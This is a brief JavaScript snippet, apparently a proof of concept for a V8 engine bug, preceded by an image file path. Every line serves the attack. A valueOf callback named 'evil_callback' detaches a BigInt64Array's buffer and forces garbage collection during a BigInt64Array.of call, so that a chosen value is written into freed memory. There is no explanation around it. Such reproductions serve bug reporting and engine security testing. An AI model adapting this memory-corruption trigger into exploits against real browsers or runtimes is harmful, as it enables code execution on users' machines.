 

var array = new BigInt64Array(11);

function evil_callback() {
  %ArrayBufferNeuter(array.buffer);
  gc();
  return 71748523475265n - 16n;
}

var evil_object = {valueOf: evil_callback}

var root = BigInt64Array.of.call(
  function() { return array },
  evil_object
)

gc(); 